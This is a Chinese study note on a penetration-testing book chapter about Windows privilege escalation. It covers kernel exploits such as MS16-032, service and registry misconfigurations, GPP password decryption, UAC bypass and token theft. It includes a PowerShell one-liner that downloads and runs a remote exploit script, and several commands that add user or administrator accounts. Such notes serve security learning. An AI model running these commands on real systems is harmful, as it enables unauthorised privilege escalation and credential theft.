




# 第四章 权限提升分析及防御

这里提到了一个TrustedInstaller权限，Windows的最高权限。System无法修改系统文件，但是这个权限能够进行修改。

提权类型：

横向提权、纵向提权

## 4.1 系统内核溢出漏洞提权分析及防范

### 通过手动执行命令发现缺失补丁

```
//查看当前权限
whoami /groups

systeminfo

wmic qfe get Caption,Description,HotFixID,InstalledOn
```

这个链接里也描述了一些方法和工具：https://www.k0rz3n.com/2019/01/27/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E6%8A%80%E5%B7%A7%E4%B8%80%EF%BC%9A%E5%AF%BB%E6%89%BEEXP/

可以通过对比KB来判断是否存在提权漏洞。

### MS16-032

可以使用Invoke-MS16-032.ps1工具:https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1

```
Invoke-MS16-032 -Application cmd.exe -Commandline "/c net user 1 1 /add"
```

远程加载：

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString(https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1);Invoke-MS16-032 -Application cmd.exe -Commandline "/c net user 1 1 /add""
```

MS16-032的补丁编号为KB3139914

### 利用MSF发现缺失补丁

```
use post/windows/gather/enum_patches
```

### Windows Exploit Suggester

将systeminfo信息输出到txt文件中

```
systeminfo > info.txt
```

windows-exploit-suggester下载地址：https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```
./windows-exploit-suggester.py --update
pip install xlrd --upgrade
/windows-exploit-suggester.py -d BulletinSearch.xlsx -i info.txt
```



MSF中也存在此模块

```
use post/multi/recon/local_exploit_suggester
```

### Powershell中的Sherlock

下载地址：https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

```
. .\sherlock.ps1
find-AllVulns
```



## 4.2 Windows操作系统配置错误急用分析和防范

### 系统服务权限配置错误

使用Powerup

```
. .\Powerup.ps1
Invoke-AllChecks
```

### 注册表键AlwaysInstallElevated

注册表键值AlwaysInstallElevated是一个策略设置项，Windows允许低权限用户以System权限运行安装文件。如果启用此策略设置项，那么任何权限的用户都能以System权限用户安装MSI类型文件。不过需要开启了Windows installer特权安装功能才能有效果。

可以直接设置这两个注册表键值为1来进行开启：

```
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKEY_CURRENT_MACHINE\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

PowerUp中也包含了这样的利用方法：

```
. .\PowerUp.ps1
//检查注册表设置，如果输出True则表示注册表键值已经被设置
Get-RegistryAlwaysInstalledElevated
//生成一个MSI文件
Write-UserAddMSI
//允许文件则会添加一个管理员账户
msiexec.exe /q /i UserAdd.msi
```

### 可信任服务路径漏洞

这个漏洞在书中说明了利用方式，但是并没有说明根本原理，这个漏洞是由于使用CreateProcess函数创建进程时对第二个参数中的文件路径没有使用双引号括起来，这个不再说明了，在之前整理ATT&CK的文档的时候已经弄过了很多遍。可以参考这个文档：https://www.cnblogs.com/sevck/p/8488469.html

书中说到了一个查找漏洞存在的方法：

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /c "C:\Windows\\" |findstr /i /v """
```

MSF中存在能够利用的模块（需要有session）：

```
use trusted_service_path
```

### 自动安装配置文件

利用的是网络管理员在内网中给多台机器配置环境的配置文件中的敏感信息，如密码等。常用配置文件目录：

```
sysprep.inf
sysprep.xml
unattend.xml
unattended.xml
```

MSF中的利用模块：

```
use post/windows/gather/enum_unattend
```

### 计划任务

查看当前计划任务：

```
schtasks /query /fo LIST /v
```

这里提到了一个工具，AccessChk用于在Windows中运行一些系统或程序的高级查询，管理和故障排除工作。可以通过这个工具来查看指定目录的权限配置情况，如果当前权限有某个高权限的程序执行文件的写权限，那么就可以替换高权限文件进行权限提升。（这里说到的是使用计划任务来进行定时执行）

使用方法：

```
//不弹框运行
accesschk.exe /accepteula
//这里原书中的命令空格被吞了，说的是列出某个驱动器下所有权限配置有缺陷的文件夹,但是使用了之后发现应该不会遍历所有的文件夹
.\accesschk.exe -uwdqs Users c:\
.\accesschk.exe -uwdqs "Authenticated Users" c:\
```



### Empire的Powerup模块

## 4.3 组策略首选项提权分析及防范

这个说的就是查找组策略配置文件中加密过的密码，主要就是Group.xml等文件。

可以直接使用PowerSploit中的Get-GPPPassword.ps1来获取

```
. .\Get-GPPpassword.ps1
Get-GppPassword
```

然后使用gpprefdecrypt.py脚本进行解密:

```
python gpprefdecrypt.py XXXXXXXXXXXXXXXXXXXX
```

## 4.4 绕过UAC提权分析及防范

### MSF中的bypassuac

```
use exploit/windows/local/bypassuac
set session X
run
```

### MSF中的RunAs

```
use exploit/windows/local/ask
set session X
run
```

运行后目标主机会弹出一个UAC的框，需要点击是然后才回弹回一个新的session，如果弹回的不是system权限的session则可以使用getsystem命令提升

### Nishang中的Invoke-PsUACme模块

```
//使用sysprep方法并执行默认的payload
Invoke-PsUACme -Verbose
//使用oobe方法并执行默认的payload
Invoke-PsUACme -methed oobe -Verbose
//使用oobe方法执行自定义的payload
Invoke-PsUACme -methed oobe -Payload "powershell -windowstyle hidden -e <your encoded payload>"
```

可以使用payloadpath参数指定payload的路径。

### Empire中的bypassuac模块

```
usemodule privesc/bypassuac
```

## 4.5 令牌窃取分析及防范

几个名词：

```
access token访问令牌：代表访问控制操作主体的系统对象
security token认证令牌或硬件令牌：是一种用于实现计算机身份校验的物理设备，例如U盾
session token会话令牌：是交互会话中唯一的身份标识符
```

伪造令牌攻击的核心是Kerberos协议。

### 令牌窃取

MSF中的利用(已经有meterpreter)：

```
use incognito
list_tokens -u
```



两种类型的令牌：

```
Delegation Tokens 授权令牌：支持交互式登录（例如可以通过远程桌面登录及访问）
Impersonation Tokens 模拟令牌：支持非交互式的会话
```

在MSF中可以选择使用某一个特定的TOKEN

```
impersonate_token
```

### Rotten Potato本地提权分析

利用的前提是系统中要存在有效的令牌，然后用这个工具快速模拟用户令牌，书中的环境存在SYSTEM的token，所以可以使用下面的命令进行窃取

下载地址：https://github.com/foxglovesec/RottenPotato.git

```
upload /opt/RottenPotato/rottenpotato.exe
execute -HC -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
```

### 添加域管理员

这里说到了使用MSF的migrate命令，借助system权限的进程进行执行命令

### Empire下的令牌窃取分析

这里说的是使用Empire下的creds命令和mimikatz模块进行pth攻击

## 4.6 无凭证条件下的权限获取分析及防范

主要说了一下使用Responder进行欺骗